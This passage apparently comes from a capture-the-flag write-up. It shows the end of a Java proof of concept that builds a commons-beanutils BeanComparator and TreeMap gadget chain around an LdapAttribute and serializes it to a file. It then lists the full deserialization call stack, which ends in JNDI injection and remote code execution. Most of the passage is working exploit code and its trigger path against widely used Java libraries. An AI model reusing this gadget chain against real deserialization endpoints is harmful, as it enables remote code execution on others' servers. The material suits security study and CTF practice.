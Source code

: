 ```Java
        baseCtxUrlField.setAccessible(true);
        baseCtxUrlField.set(ldapAttribute, ldapCtxUrl);

        Field rdnField = ldapAttributeClazz.getDeclaredField("rdn");
        rdnField.setAccessible(true);
        rdnField.set(ldapAttribute, new CompositeName("a//b"));
        
        // Generate payload
        BeanComparator comparator = new BeanComparator("class");
        TreeMap treeMap1 = new TreeMap(comparator);
        treeMap1.put(ldapAttribute, "aaa");
        TreeMap treeMap2 = new TreeMap(comparator);
        treeMap2.put(ldapAttribute, "aaa");
        HashMap hashMap = new HashMap();
        hashMap.put(treeMap1, "bbb");
        hashMap.put(treeMap2, "ccc");

        Field propertyField = BeanComparator.class.getDeclaredField("property");
        propertyField.setAccessible(true);
        propertyField.set(comparator, "attributeDefinition");

        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("object.ser"));
        oos.writeObject(hashMap);
        oos.close();

    }

}
```

Note that PoC must be run under the dependencies given by Java 1.4 and the challenge environment, otherwise serialVersionUID inconsistencies may occur during deserialization.

The entire payload deserialization call stack is:

```
java.io.ObjectInputStream#readObject
-> java.util.HashMap#readObject
-> java.util.HashMap#putForCreate
-> java.util.HashMap#eq
-> java.util.AbstractMap#equals
-> java.util.TreeMap#get
-> java.util.TreeMap#getEntry
-> java.util.TreeMap#compare
-> org.apache.commons.beanutils.BeanComparator#compare
-> org.apache.commons.beanutils.PropertyUtils#getProperty
-> org.apache.commons.beanutils.PropertyUtils#getNestedProperty
-> org.apache.commons.beanutils.PropertyUtils#getSimpleProperty
-> java.lang.reflect.Method#invoke
-> com.sun.jndi.ldap.LdapAttribute#getAttributeDefinition
-> javax.naming.directory.InitialDirContext#getSchema(javax.naming.Name)
-> com.sun.jndi.toolkit.ctx.PartialCompositeDirContext#getSchema(javax.naming.Name)
-> com.sun.jndi.toolkit.ctx.ComponentDirContext#p_getSchema
-> com.sun.jndi.toolkit.ctx.ComponentContext#p_resolveIntermediate
-> com.sun.jndi.toolkit.ctx.AtomicContext#c_resolveIntermediate_nns
-> com.sun.jndi.toolkit.ctx.ComponentContext#c_resolveIntermediate_nns
-> com.sun.jndi.ldap.LdapCtx#c_lookup
-> JNDI Injection RCE
```
